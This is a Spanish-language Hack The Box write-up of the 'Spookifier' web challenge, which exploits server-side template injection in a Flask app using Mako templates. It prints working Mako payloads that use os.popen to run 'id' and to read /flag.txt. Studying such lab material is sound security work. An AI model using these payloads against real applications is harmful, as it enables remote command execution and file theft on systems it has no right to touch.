 ```yaml
---
title: Spookifier
description: There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - ssti
  - arbitrary_file_read
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

El sitio web proporciona una funcionalidad sencilla, permite ingresar texto que luego es transformado a distintos estilos de fuentes.

![](assets/img/htb-writeup-spookifier/spookifier1.png)

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ unzip Spookifier.zip 
```

Descomprimo el archivo proporcionado por el reto para analizar su contenido. A simple vista, parece tratarse de la misma web mostrada en la interfaz, y está implementada en Python.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ tree web_spookifier 
web_spookifier
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

Revisando el Dockerfile, confirmo que el archivo `flag.txt` es copiado directamente al directorio raíz.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ cat web_spookifier/Dockerfile 
...snip...
# Copy flag
COPY flag.txt /flag.txt
...snip...
```

El archivo `main.py` sugiere que la aplicación utiliza Mako Templates como motor de plantillas.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ head -3 web_spookifier/challenge/application/main.py
from flask import Flask, jsonify
from application.blueprints.routes import web
from flask_mako import MakoTemplates
```

Teniendo en cuenta esto, realizo una prueba de Server-Side Template Injection específica para Mako. El resultado mostrado por la aplicación es 49, lo cual confirma que la presencia de la vulnerabilidad SSTI.

![](assets/img/htb-writeup-spookifier/spookifier2.png)

---
## Vulnerability Exploitation

Consultando [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/996c83bb4ba054261767cf49f6c5b4d582393cf2/Server%20Side%20Template%20Injection#mako), encuentro referencias útiles para construir una cadena capaz de ejecutar comandos arbitrarios utilizando Mako Templates. Mediante el uso de os.popen, logro explotar la vulnerabilidad SSTI y ejecutar comandos del sistema. 

```python
${self.module.cache.util.os.popen('id').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier3.png)

La vulnerabilidad permite la lectura arbitraria de archivos y la ejecución de comandos. A partir de esto, accedo al contenido de la flag alojada en el directorio raíz.

```python
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier4.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/413" target="_blank">Spookifier Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }